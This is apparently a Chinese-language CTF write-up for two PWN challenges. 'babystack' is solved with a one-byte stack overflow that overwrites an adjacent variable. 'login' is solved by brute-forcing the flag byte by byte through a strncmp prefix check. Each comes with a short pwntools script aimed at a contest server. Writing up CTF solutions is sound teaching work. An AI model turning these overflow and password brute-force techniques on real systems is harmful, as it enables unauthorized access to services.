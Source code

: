 # PWN

## babystack

### 考察要点

1. 变量在栈帧中的位置关系
2. 栈溢出

### 解题过程

```python
from pwn import *

p = remote('119.23.206.23', 10001)

p.recvuntil('what\'s your name?\n')
p.send('a'*0x10 + '\x33')

p.interactive()
```

## login

### 考察要点

1. strncmp 函数作用
2. python 爆破脚本编写

### 解题过程

发现程序中每次与 flag 的比较都是使用的 strncmp，因此可以逐字节爆破
注：`strncmp("sc", "scuctf{...}", 2) == 0`

```python
from pwn import *

context.log_level = 'critical'

table = list(string.printable)
current = ''

while(True):
	#p = process('./login')
	p = remote('119.23.206.23', 10002)
	p.recvuntil('What your name?\n')
	p.sendline('hgy')
	for i in table:
		tmp = current + i
		p.recvuntil('Your password :')
		p.send(tmp)
		res = p.recvline()
		if "Welcome" in res:
			current += i
			print current
			p.close()
			break

p.interactive()
```

